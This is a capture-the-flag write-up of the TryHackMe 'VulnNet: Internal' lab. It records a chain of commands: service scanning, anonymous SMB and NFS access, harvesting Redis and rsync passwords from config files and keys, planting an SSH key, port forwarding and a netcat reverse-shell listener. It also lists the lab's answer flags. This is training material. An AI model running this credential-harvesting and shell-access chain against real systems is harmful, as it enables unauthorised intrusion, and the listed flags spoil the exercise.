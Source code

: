 # TryHackMe Lab 6VulnNet: Internal

<img src="vulnNet-lab-6.png"
     alt="vulnNet-lab-6_icon"
     style="float: left; margin-right: 10px;" />
     
Task 1  VulnNet: Internal

VulnNet Entertainment is a company that learns from its mistakes. They quickly realized that they can't make a properly secured web application so they gave up on that idea. Instead, they decided to set up internal services for business purposes. As usual, you're tasked to perform a penetration test of their network and report your findings.

Difficulty: Easy/Medium
Operating System: Linux
This machine was designed to be quite the opposite of the previous machines in this series and it focuses on internal services. It's supposed to show you how you can retrieve interesting information and use it to gain system access. Report your findings by submitting the correct flags.

Note: It might take 3-5 minutes for all the services to boot.

Author: MindOverfløw
Discord: MindOverfløw#0420

What is the services flag? (services.txt)

Statred Machine

Ran command `ls` found nothing.

ran `grep`, no luck

ran nmap

`nmap -T4 -A -v 10.10.41.125`

<img src="vulnNet-lab-6-1.png"
     alt="vulnNet-lab-6-1_icon"
     style="float: left; margin-right: 10px;" />
     
smbclient can be exploited.

`smbclient \\10.10.41.125/shares`

no password needed

<img src="vulnNet-lab-6-2.png"
     alt="vulnNet-lab-6-2_icon"
     style="float: left; margin-right: 10px;" />
     
What is the services flag? (services.txt)
 
 Answer-`THM{0a09d51e488f5fa105d8d866a497440a}`
 
What is the internal flag? ("internal flag") 

NFS on port 2049 found, let's mount the NFS fileshare

`sudo mount -t nfs 10.10.41.125: tmp`

tree command not working

ran command `sudo apt install tree`

found redis.conf

ran command cat redis.conf | grep -E "pass"

<img src="vulnNet-lab-6-4.png"
     alt="vulnNet-lab-6-4_icon"
     style="float: left; margin-right: 10px;" />

this gave password to redis server.

password `B65Hx562F@ggAZ@F`

connected to redis with command 

`redis-cli -h 10.10.73.131 -a B65Hx562F@ggAZ@F`

redis not installed

ran command `sudo redis-tools`

ran command `redis-cli -h 10.10.73.131 -a B65Hx562F@ggAZ@F`

ran command `KEYS *`

from prompt `KEYS "internal flag"`

ran command `GET "internal flag"`

<img src="vulnNet-lab-6-5.png"
     alt="vulnNet-lab-6-5_icon"
     style="float: left; margin-right: 10px;" />

What is the internal flag? ("internal flag")

Answer-`THM{ff8e518addbbddb74531a724236a8221}`

ran command GET authlist, failed, a little OSINT on error.

ran command `LRANGE authlist 1 100`

<img src="vulnNet-lab-6-6.png"
     alt="vulnNet-lab-6-6_icon"
     style="float: left; margin-right: 10px;" />
     
opened new terminal to decode base64 to retrieve it's contents.

ran command `echo "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==" | base64 -d`

<img src="vulnNet-lab-6-7.png"
     alt="vulnNet-lab-6-7_icon"
     style="float: left; margin-right: 10px;" />
     
found rsync data `Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v`

ran command `rsync --list-only rsync://10.10.73.131`

listed files

ran command `sync --list-only rsync://rsync-connect@10.10.73.131/files`

Password`Hcg3HP67@TW@Bc72v`

found sys-internal child directory

ran command `rsync --list-only rsync://rsync-connect@10.10.190.83/files/sys-internal/`

password`Hcg3HP67@TW@Bc72v`

found .ssh key and copied with command `cp ~/.ssh/id_rsa.pub authorized_keys`

<img src="vulnNet-lab-6-8.png"
     alt="vulnNet-lab-6-8_icon"
     style="float: left; margin-right: 10px;" />
     
ran command `rsync rsync://rsync-connect@10.10.73.131/files/sys-internal/*.* /home/kali/tmp/`

failed

researched

connected to ssh ran `ls`

ran command `cat user.txt`

What is the user flag? (user.txt)

Answer-`THM{da7c20696831f253e0afaca8b83c07ab}`

What is the root flag? (root.txt)

ran command `ssh -L 8111:127.0.0.1:8111 sys-internal@10.10.73.131`

now at connect page
     
started netcat listener with command `nc -nlvp 444`

now with reverse shell,  ran command `at /root/root.txt`

Answer-`THM{e8996faea46df09dba5676dd271c60bd}`







 
